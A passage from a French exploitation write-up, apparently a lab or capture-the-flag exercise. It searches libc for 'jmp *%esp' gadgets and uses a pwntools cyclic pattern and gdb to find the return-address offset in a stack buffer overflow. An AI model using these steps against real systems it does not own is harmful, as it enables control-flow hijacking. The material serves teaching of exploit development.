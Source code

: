 ```
0xb7fb06d3
0xb7fb0753
0xb7fb0853
0xb7fb08d3
0xb7fb0953
0xb7fb125f
0xb7fb193f
0xb7fb389f
0xb7fb38fb
0xb7fbdceb
0xb7fbdf13
0xb7fbe78b
0xb7fbef0b
0xb7fbefa3
0xb7fbefc3
0xb7fbf31b
0xb7fbf663
0xb7fbfa5b
0xb7fbfa9b
0xb7fbfb13
0xb7fbfb53
0xb7fbfbd3
0xb7fbff93
0xb7fc0113
0xb7fc0483
0xb7fc05b3
0xb7fc06fb
0xb7fc0a5b
0xb7fc15f3
31 patterns found.
(gdb) x/i 0xb7e8ca35
   0xb7e8ca35:  jmp    *%esp
```

Sur la page de la libc je trouve les opcodes `ffe4` à 31 emplacements !

On va maintenant faire les choses plus proprement pour voir à quel offset se trouve l'adresse de retour ainsi que l'adresse pointée par esp.

```python
>>> from pwnlib.util.cyclic import cyclic_gen
>>> g = cyclic_gen()
>>> g.get(400)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaad'
```

Je lance le binaire avec cette chaine sans répétition et je note les valeurs qui m'intéressent :

```
Program received signal SIGSEGV, Segmentation fault.
0x64616162 in ?? ()
(gdb) x/s $esp
0xbffff5d0:      "caaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaad"
```
